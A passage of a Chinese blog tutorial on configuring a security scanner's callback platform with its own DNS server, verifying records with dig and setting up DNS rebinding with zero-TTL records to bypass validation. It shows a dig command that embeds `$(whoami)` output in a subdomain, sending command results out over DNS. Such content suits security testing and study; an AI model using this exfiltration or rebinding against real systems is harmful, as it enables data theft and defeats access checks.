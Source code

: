 要注意的是 dns 服务需要监听 UDP 53 端口，需要 root 权限而且记得在防火墙中放行。

### 反连平台可以解析 *.revc.xyz 的任意域名了

回到界面上，点击 `生成一个域名`，我们先来验证一下之前的配置有没有生效，因为 ns 记录大概需要几个小时才能全球生效，当然如果指定了 dns 服务器为自己的的话，就不需要了。

```bash
$dig ns1.revc.xyz A @140.143.224.171

; <<>> DiG 9.10.6 <<>> ns1.revc.xyz A @140.143.224.171
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 852
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; WARNING: recursion requested but not available

;; QUESTION SECTION:
;ns1.revc.xyz.			IN	A

;; ANSWER SECTION:
ns1.revc.xyz.		60	IN	A	140.143.224.171

;; Query time: 75 msec
;; SERVER: 140.143.224.171#53(140.143.224.171)
;; WHEN: Sun Sep 08 10:22:23 CST 2019
;; MSG SIZE  rcvd: 58
```

可以看出来 ns1 的解析记录是对的，这个是我们配置文件中的静态解析规则。

在界面上可以生成一个新域名，如果我们不需要 dns rebinding 的功能，只需要查看解析记录的话，那和之前的 HTTP 访问记录功能没有太大差别，比如 `dig p-9fd889-lzyk.$(whoami).revc.xyz A@140.143.224.171` 就可以看到左侧 DNS 一栏中的记录了。

![](https://storage.virusdefender.net/blog/images/796/15679095622627.jpg)

实际解析的域名中间的部分就是执行命令的结果。

### dns rebinding 也可以绕过验证，成功~

话说回来，为了验证我们之前利用 dns rebinding 进行绕过的思路，我们在 xray 的反连平台上创建一个 域名，然后指定两次不同的解析 IP 而且 TTL 为 0 就可以了。在网页上配置起来也是非常的简单。

![](https://storage.virusdefender.net/blog/images/796/15679097232155.jpg)

点击保存之后，同样是先本地测试一下。

```bash
$dig p-04f887-2kua.revc.xyz A @140.143.224.171

; <<>> DiG 9.10.6 <<>> p-04f887-2kua.revc.xyz A @140.143.224.171
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 35
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; WARNING: recursion requested but not available

;; QUESTION SECTION:
;p-04f887-2kua.revc.xyz.		IN	A

;; ANSWER SECTION:
p-04f887-2kua.revc.xyz.	0	IN	A	1.2.3.4

;; Query time: 54 msec
;; SERVER: 140.143.224.171#53(140.143.224.171)
;; WHEN: Sun Sep 08 10:29:25 CST 2019
;; MSG SIZE  rcvd: 78

```